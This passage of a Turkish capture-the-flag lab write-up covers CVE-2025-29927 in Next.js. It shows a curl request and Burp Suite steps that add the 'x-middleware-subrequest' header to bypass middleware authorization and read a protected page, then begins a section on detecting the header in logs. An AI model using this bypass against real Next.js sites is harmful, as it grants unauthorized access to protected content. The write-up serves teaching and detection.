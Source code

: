 İsteği yaptığımızda herhangi bir yanıt dönmüyor ve header'ları kontrol ettiğimizde bizi kök dizine yönlendirmeye çalıştığını görüyoruz.

Şimdi de `x-middleware-subrequest` header'ını ekleyerek isteğimizi gönderelim ve dönen cevabı kontrol edelim.

```powershell
C:\Users\bilal>curl -H "x-middleware-subrequest: middleware" http://10.10.72.67:3000/protected
<!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/ff587241ed4bf596.css" crossorigin="" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-9fe8293484f0fd5d.js" crossorigin=""/><script src="/_next/static/chunks/fd9d1056-ffbd49fae2ee76ea.js" async="" crossorigin=""></script><script src="/_next/static/chunks/472-22e55b21ed910619.js" async="" crossorigin=""></script><script src="/_next/static/chunks/main-app-a9a33ea6f7c72b4f.js" async="" crossorigin=""></script><title>Vulnerable Next.js App - CVE-2025-29927</title><meta name="description" content="Demonstration of Next.js middleware vulnerability CVE-2025-29927"/><script src="/_next/static/chunks/polyfills-c67a75d1b6f99dc8.js" crossorigin="" noModule=""></script></head><body class="bg-thm text-slate-200"><main class="container mx-auto p-10"><header class="mb-5"><h1 class="text-4xl">CVE-2025-29927</h1><nav class="mt-2"><ul class="flex gap-2"><li><a href="/" class="app_link__ouYRV !text-green">Home</a></li><li><a href="/protected" class="app_link__ouYRV">Protected Page</a></li></ul></nav></header><section class="flex flex-col items-center py-10"><p class="flag text-5xl text-green">THM{...}</p></section></main><script src="/_next/static/chunks/webpack-9fe8293484f0fd5d.js" crossorigin="" async=""></script> <SNIP>...</SNIP>
```

Herhangi bir yetkilendirme mekanizmasına takılmadan olduğunu gibi /protected sayfasının içeriğini okuyabildik.

<br>

Şimdi de BurpSuite kullanarak benzer işlemi gerçekleştirelim.

![Burp Request](burp_1.png)

Intercept'i açarak web sitesini ziyaret ediyoruz. Daha sonra Request kısmına `x-middleware-subrequest` başlığını ekliyoruz. Ve istek talebini Forward'lıyoruz.

![Burp Header](burp_2-header.png)

Ve görüldüğü gibi `/protected` sayfasını görüntüleyebiliyoruz.

![Flag](flag.png)


## **Tespit** 

1. ### **Manuel Log Analizi**

    **Sunucu Logları:**

      - Eğer NodeJS gibi bir ortam kullanıyorsanız, **request.headers['x-middleware-subrequest']** değerini kaydedecek şekilde log ayarlarını güncelleyebilirsiniz.

      - Apache veya Nginx üzerinden proxy alıyorsanız, bu başlığı kaydetmek için ek yapılandırmalar yapmanız gerekir.
